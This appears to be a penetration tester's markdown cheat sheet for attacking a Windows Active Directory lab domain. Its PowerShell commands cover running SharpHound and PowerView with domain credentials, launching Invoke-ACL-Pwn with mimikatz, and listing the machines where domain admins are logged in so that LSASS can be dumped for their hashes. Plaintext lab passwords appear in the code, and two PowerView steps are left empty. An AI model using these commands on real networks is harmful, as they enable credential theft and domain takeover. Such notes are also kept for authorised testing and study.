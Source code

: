 # With Domain Creds
## Run SharpHound remotely with creds
> This can be used to run any binary or powershell script remotely e.g. invoke-mimikatz

```powershell
# Switch to a world writable directory so we have permission to write files to disk
cd \windows\tasks

# the netonly command means creds are only used for network access
runas /netonly /user:lab.local\administrator cmd.exe

# verify we are using the correct creds using
net view \\WIN-8K30QDLT1AP.lab.local\

# run bloodhound remotely, pass -d argument to specify the domain name
C:\tools\SharpHound-v1.0.4\SharpHound.exe -d "lab.local"
```

## Run PowerView remotely with creds
1. Import powerview
```powershell
import-module .\powerview.ps1
```

2. Setup the credentials object
```powershell
$passwd = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("lab.local\administrator", $passwd)


# dump domain users, output to file


# Read json and conver
Get-Content ~\desktop\domain_users.json | Out-String | ConvertFrom-Json | select samaccountname
```

## Run Invoke-ACL-Pwn Remotely with creds
```powershell
# add the -WhatIf flag to view pathes before exploitation
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```

## Identifying logged in domain admins on computers
> Using a local admin on these machines we can dump the LSASS to get the hash of the domain admins

```powershell
# need to be running this inside a runas session with domain creds
function Get-LoggedUser
{
    [CmdletBinding()]
    param
    (
        [string[]]$ComputerName 
    )
    foreach ($comp in $ComputerName)
    {
        $output = @{'Computer' = $comp }
        $output.UserName = (Get-WmiObject -Class win32_computersystem -ComputerName $comp).UserName
        [PSCustomObject]$output
    }
}

# Get all computer names and save them to a variable, using PowerView
# Requires admin
Import-Module C:\tools\custom\PowerView.ps1
$passwd = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("lab.local\administrator", $passwd)
$computers = (Get-NetComputer -Credential $creds)


# Function call
Get-LoggedUser $computers
# or
Get-LoggedUser pc1215wks1,pc1215wks2,mun-dc01
```